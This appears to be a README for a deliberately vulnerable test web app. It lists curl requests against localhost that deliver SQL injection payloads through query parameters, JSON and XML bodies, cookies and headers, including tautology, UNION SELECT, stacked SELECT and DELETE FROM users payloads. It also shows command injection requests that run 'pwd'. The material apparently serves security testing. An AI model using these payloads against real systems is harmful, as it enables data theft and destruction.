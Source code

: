 # Vulnerable

## SQL Injection

### GET request - payload in query param
```bash
curl http://localhost:8080/vun/sql/example1/?name=michal
curl http://localhost:8080/vun/sql/example1/?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

## CMD Injection

### GET request - payload in query param
```bash
curl http://localhost:8080/vun/cmd/example1/?cmd=pwd
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/ -H "X-Filter:pwd"
```